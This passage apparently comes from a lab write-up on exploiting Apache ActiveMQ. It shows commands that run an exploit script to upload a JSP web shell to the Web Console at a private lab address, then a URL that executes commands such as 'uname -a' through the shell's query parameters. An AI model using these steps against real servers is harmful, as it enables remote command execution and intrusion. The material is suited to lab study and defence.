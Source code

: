 # 2) Verify the file (e.g., ActiveMQ_putshell.py)
ls -la

# 3) Run the exploit to put a shell into the ActiveMQ Web Console
python3 ActiveMQ_putshell.py -u http://10.10.94.190:8161
```

![python3](images/8.png)

- Upon successful execution, the script will display the path/URL of the uploaded file.

🔗 Run via the Web Console (query string)
Once you have the JSP URL, you can send commands via the query string. Example parameters used:
- `pwd=gshell` — Parameter to confirm execution 🔐
- `shell=<command>` — Command to be executed by the server 🧩

Example: Sending `uname -a`:
```bash
http://10.10.94.190:8161/admin/guo.jsp?pwd=gshell&shell=uname -a
```

![Web-Console](images/9.png)
